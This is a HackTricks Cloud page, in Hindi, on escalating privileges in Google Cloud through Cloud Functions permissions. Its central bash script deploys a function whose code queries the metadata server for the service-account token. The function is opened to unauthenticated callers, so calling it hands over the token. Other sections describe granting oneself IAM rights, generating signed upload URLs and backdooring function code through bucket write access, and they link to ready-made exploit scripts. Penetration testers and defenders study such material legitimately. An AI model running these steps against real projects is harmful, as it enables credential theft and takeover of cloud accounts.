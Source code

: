 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Cloud Functions के बारे में अधिक जानकारी:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

इन विशेषाधिकारों के साथ एक हमलावर **मनमाने (दुष्ट) कोड के साथ एक नया Cloud Function बना सकता है और इसे एक Service Account सौंप सकता है**। फिर, विशेषाधिकारों को बढ़ाने के लिए मेटाडेटा से Service Account टोकन लीक करें।\
फंक्शन को ट्रिगर करने के लिए कुछ विशेषाधिकारों की आवश्यकता हो सकती है।

इस विधि के लिए शोषण स्क्रिप्ट [यहां](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) और [यहां](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) मिल सकती हैं और प्रीबिल्ट .zip फ़ाइल [यहां](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions) मिल सकती है।

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

इन विशेषाधिकारों के साथ एक हमलावर **एक Function के कोड को संशोधित कर सकता है और यहां तक कि संलग्न सेवा खाते को भी संशोधित कर सकता है** जिसका लक्ष्य टोकन को एक्सफिल्ट्रेट करना है।

{% hint style="danger" %}
Cloud functions को तैनात करने के लिए आपको डिफ़ॉल्ट कंप्यूट सेवा खाते या उस सेवा खाते पर actAs अनुमतियों की भी आवश्यकता होगी जिसका उपयोग छवि बनाने के लिए किया जाता है।
{% endhint %}

कुछ अतिरिक्त विशेषाधिकार जैसे कि संस्करण 1 cloudfunctions के लिए `.call` अनुमति या फंक्शन को ट्रिगर करने के लिए `role/run.invoker` भूमिका की आवश्यकता हो सकती है।
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
यदि आपको त्रुटि `Permission 'run.services.setIamPolicy' denied on resource...` मिलती है, तो इसका कारण यह है कि आप `--allow-unauthenticated` पैरामीटर का उपयोग कर रहे हैं और आपके पास इसके लिए पर्याप्त अनुमतियाँ नहीं हैं।
{% endhint %}

इस विधि के लिए एक्सप्लॉइट स्क्रिप्ट [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py) मिल सकती है।

### `cloudfunctions.functions.sourceCodeSet`

इस अनुमति के साथ आप एक **साइन किया हुआ URL प्राप्त कर सकते हैं ताकि एक फ़ाइल को एक फ़ंक्शन बकेट में अपलोड किया जा सके (लेकिन फ़ंक्शन का कोड नहीं बदलेगा, आपको इसे अभी भी अपडेट करना होगा)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

हम attackers के दृष्टिकोण से केवल इस अनुमति की उपयोगिता के बारे में निश्चित नहीं हैं, लेकिन जानना अच्छा है।

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Privilege बढ़ाने के लिए अपने आप को पिछले **`.update`** या **`.create`** अधिकार दें।

### `cloudfunctions.functions.update`

केवल **`cloudfunctions`** अनुमतियों के साथ, बिना **`iam.serviceAccounts.actAs`** के आप **फंक्शन को अपडेट नहीं कर पाएंगे, इसलिए यह एक मान्य प्रिवेस्क नहीं है।**

### बकेट पर पढ़ने और लिखने की पहुंच

यदि आपके पास बकेट पर पढ़ने और लिखने की पहुंच है, तो आप कोड में परिवर्तनों की निगरानी कर सकते हैं और जब भी **बकेट में अपडेट होता है, आप अपने कोड के साथ नए कोड को अपडेट कर सकते हैं** ताकि Cloud Function का नया संस्करण प्रस्तुत किए गए बैकडोर कोड के साथ चल सके।

आप हमले के बारे में अधिक जानकारी यहाँ देख सकते हैं:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

हालांकि, आप इसका उपयोग तीसरे पक्ष के Cloud Functions को पूर्व-समझौता करने के लिए नहीं कर सकते क्योंकि यदि आप अपने खाते में बकेट बनाते हैं और इसे सार्वजनिक अनुमतियाँ देते हैं ताकि बाहरी प्रोजेक्ट उस पर लिख सके, तो आपको निम्नलिखित त्रुटि मिलती है:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
हालांकि, इसका उपयोग DoS हमलों के लिए किया जा सकता है।
{% endhint %}

### आर्टिफैक्ट रजिस्ट्री पर पढ़ने और लिखने की पहुंच

जब एक Cloud Function बनाई जाती है, तो प्रोजेक्ट के आर्टिफैक्ट रजिस्ट्री में एक नया डॉकर इमेज पुश किया जाता है। मैंने इमेज को एक नए के साथ संशोधित करने की कोशिश की, और यहां तक कि वर्तमान इमेज (और `cache` इमेज) को हटाने की कोशिश की, लेकिन कुछ भी नहीं बदला, क्लाउड फंक्शन काम करता रहा। इसलिए, शायद यह **बकेट के साथ एक रेस कंडीशन हमले का दुरुपयोग करना संभव हो सकता है** ताकि डॉकर कंटेनर को बदला जा सके जो चलाया जाएगा, लेकिन **संग्रहीत इमेज को केवल संशोधित करना Cloud Function को समझौता करने के लिए संभव नहीं है।**

## संदर्भ

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो करें** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
